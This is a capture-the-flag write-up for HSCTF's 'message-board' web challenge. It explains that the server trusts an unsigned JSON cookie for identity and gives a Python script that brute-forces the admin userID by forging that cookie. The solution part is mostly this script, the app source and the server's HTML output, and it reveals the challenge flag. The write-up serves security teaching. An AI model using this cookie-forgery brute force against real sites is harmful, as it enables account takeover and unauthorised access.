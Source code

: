 ## Problem ##

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: `kupatergent` password: `gandal`

Server code is attached (slightly modified).

## Solution ##

After logging in to the service we notice we have a cookie called `userData` of the form `j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D`.

If we URL-decode this cookie we get `j:{"userID":"972","username":"kupatergent"}`.

It is readily apparent that we should change the username to `admin`. I then tried to change the value of `userID` to 0 or 1, but neither seemed to yield the flag. At this point I took a look at the source code of the app:

```console
root@osboxes:~/Downloads/message-board-1-master# cat app.js 
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]
```

From the source code it is apparent that the `userID` for admin is 3 digits long. I whipped up a script to brute force the `userID`:

```py
import requests

url = 'https://message-board.hsc.tf/'

payload_part_1 = 'j%3A%7B%22userID%22%3A%22'
payload_part_2 = '%22%2C%22username%22%3A%22admin%22%7D'

for i in range(1000):
    print(i)
    payload = payload_part_1 + str(i) + payload_part_2
    cookie = {'userData':payload}
    r = requests.get(url,cookies=cookie)
    if 'flag{' in r.text:
        print(r.text)
        break
```

I ran the script and got a hit for `userID=768`:

```console
0
1
2
.
.
.
763
764
765
766
767
768
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>LameCompany: Message Board</title>

    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-+0n0xVW2eSR5OomGNYDnhzAbDsOXxcvSN1TPprVMTNDbiYZCxYbOOl7+AMvyTG2x" crossorigin="anonymous">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.1/dist/js/bootstrap.bundle.min.js" integrity="sha384-gtEjrD/SeCtmISkJkNUaaKMoLD0//ElJ19smozuHV6z3Iehds+3Ulb9Bn9Plx0x4" crossorigin="anonymous"></script>

    <link rel="stylesheet" href="styles.css">
</head>
<body>
     

<div class="container mid">
    <h1>hi, admin</h1>

    <div class="messages">
        <p><strong data-bs-toggle="tooltip" title="a super friendly person :)">Karen:</strong> Did you see Mary's hair the other day?</p>
        <p><strong data-bs-toggle="tooltip" title="had terrible hair the other day">Mary:</strong> I can hear you, you know.</p>
        <p><strong data-bs-toggle="tooltip" title="a super friendly person :)">Karen:</strong> Technically you're not hearing me.</p>
        <p><strong data-bs-toggle="tooltip" title="has had enough of this bs">Rosa:</strong> Okay, I'm heading out.</p>
        <p><strong data-bs-toggle="tooltip" title="what a cool name">HSCTF:</strong> flag{y4m_y4m_c00k13s}</p>
    </div>
</div>

<a href="/logout"><button class="btn btn-danger">Log out</button></a>

<script>
    var tooltipTriggerList = [].slice.call(document.querySelectorAll('[data-bs-toggle="tooltip"]'))
    var tooltipList = tooltipTriggerList.map(function (tooltipTriggerEl) {
        return new bootstrap.Tooltip(tooltipTriggerEl)
    })
</script>


</body>
</html> 
```

The flag is **flag{y4m_y4m_c00k13s}**.
